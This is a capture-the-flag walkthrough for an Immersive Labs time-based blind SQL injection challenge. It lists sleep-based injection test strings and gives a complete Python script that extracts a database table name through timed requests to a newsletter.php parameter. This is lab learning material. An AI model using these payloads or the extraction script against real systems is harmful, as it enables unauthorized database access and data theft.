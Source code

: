 ```yaml
---
date: 2025-02-08
categories: [CTF, ImmersiveLabs]
title: "IML - SQL Injection – Time-Based Blind"
tags: ['http', 'sql', 'sqli', 'rce']

description: "SQL Injection – Time-Based Bl - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - SQL Injection – Time-Based Blind

[https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi)

**<u>To test for time-based sqli:</u>**
Example:

```bash
http://domain.com/index.php?id=15'XOR(if(now()=sysdate(),sleep(5\*5),0))OR'
```
or use:
**' OR SLEEP(5) AND '1'='1**
or
**'AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe**

If the websites hangs for a bit, it means it is vulnerable to this kind of attack


![image1](../resources/0ea334980e34492093c4a7564082592d.png)


![image2](../resources/048d06d477a3420e9537d1315fe5ded8.png)

- Edit script (below) with parameters


![image3](../resources/d5f84473a07445e39af788ad44b0c701.png)

DB_name (script below)


![image4](../resources/42d7108f995746d1973bb6b4cc360e77.png)

Table_name (script below)


![image5](../resources/a18612f005af4f699d29aec9ac07fad9.png)

Column_name(script below)


![image6](../resources/208b3c33cdbb47f586ad222089318e9f.png)

Find flag


![image7](../resources/f15c06b5f66e4b90a9d2128af08c19d0.png)

**Ignore capitals and weird characters**


![image8](../resources/4b57281e766f4f77a4225d5d83867ffb.png)

Make sure to put the queries in their own ( )

**<u>Time-Based Bruteforce Database name script</u>**


![image9](../resources/ded6c258929345789f2ffe7614ec744c.png)

**<u>Time-Based Bruteforce Table name script</u>**


![image10](../resources/72335977ed8b4427a695b6c17c6ab8f2.png)

**<u>Time-Based Bruteforce Column name script</u>**


![image11](../resources/db532af227954c6d8796124e71b2ed5e.png)

**<u>Find flag</u>**


![image12](../resources/b408bf05364d4936a6d8c932e17e473e.png)

**<u>Script:</u>**

```python
import requests
import sys
import time

# Send the payload to the vulnerable parameter on the target host
# If it takes 5 seconds or longer to get a reply, return True
def send_payload(ip, payload):
    start = time.time()
    r = requests.get(
        "http://%s/newsletter.php?name=test&email=test' OR IF (%s, sleep(5), 'NO') AND '1'='1'" % (ip, payload)
    )
    end = time.time()
    return (end - start) >= 5

# Brute-force the length of the database table name
# Then iterate over characters to brute-force the table name
def brute_db(ip):
    length = 0
    for i in range(0, 100):
        if send_payload(ip, "LENGTH((select table_name from information_schema.tables where table_schema=database()))='%d'" % i):
            length = i
            break

    print("Length: %d" % length)
    sys.stdout.write("Dumping: ")
    sys.stdout.flush()

    db_name = ""
    for i in range(1, length + 1):
        for j in range(96, 123):  # ASCII a-z
            if send_payload(ip, "SUBSTRING((select table_name from information_schema.tables where table_schema=database()),%d,1)='%s'" % (i, chr(j))):
                db_name += chr(j)
                sys.stdout.write(chr(j))
                sys.stdout.flush()
                break
    sys.stdout.write("\n")
    sys.stdout.flush()
    return db_name

def main():
    if len(sys.argv) != 2:
        print("Usage: python %s <ip>" % sys.argv[0])
        sys.exit(1)

    ip = sys.argv[1]
    db_name = brute_db(ip)
    print("DB name: %s" % db_name)

if __name__ == "__main__":
    main()


```
